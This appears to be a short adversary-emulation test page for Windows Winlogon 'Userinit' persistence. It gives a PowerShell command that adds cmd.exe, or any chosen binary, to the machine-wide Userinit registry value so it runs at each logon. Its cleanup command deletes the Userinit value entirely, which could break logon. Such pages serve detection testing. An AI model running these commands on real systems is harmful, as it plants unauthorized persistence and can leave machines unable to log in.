 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
